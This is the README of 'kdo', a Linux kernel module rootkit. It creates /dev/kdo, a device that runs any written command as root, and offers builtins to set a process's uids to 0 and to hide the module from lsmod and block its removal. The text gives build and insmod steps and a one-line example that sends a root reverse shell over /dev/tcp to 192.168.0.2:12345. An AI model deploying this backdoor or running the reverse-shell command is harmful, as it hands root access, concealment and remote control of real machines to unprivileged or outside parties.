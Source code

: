 kdo
===
Kernel-level sudo. This is a very simple LKM that creates a character device at `/dev/kdo` to which
commands can be written and executed via `call_usermodehelper`, effectively creating a backdoor for
unprivileged users. Apart from command execution, some useful builtins are implemented as well.


Builtins
--------
- `kdo-su` \
Grant root privileges to the current process (set all uids to 0).

- `kdo-hide` \
Hide module from `lsmod` and make it impossible to unload with `rmmod`.

- `kdo-show` \
Make module visible and removable after running `kdo-hide`.


Installation
------------
**1**. Clone the repository
```bash
git clone https://github.com/hiatus/kdo
```

**2**. Build the module
```bash
cd kdo
make
```

**3**. Insert the module 
```
sudo insmod kdo.ko
```

Configuration
-------------
Some options can be set in `src/include/config.h`, such as the name of the created device (`kdo` by
default) and enabling logging (disabled by default).


Usage
-----
Simply write to `/dev/kdo`. Because the module treats anything (apart from builtins) as a last
argument for `/bin/sh -i -c`, redirection and other shell functionalities are supported. For
example, to send a root reverse shell to `192.168.0.2:12345`, run:
```bash
echo 'bash -i &> /dev/tcp/192.168.0.2/12345 0>&1' > /dev/kdo
```
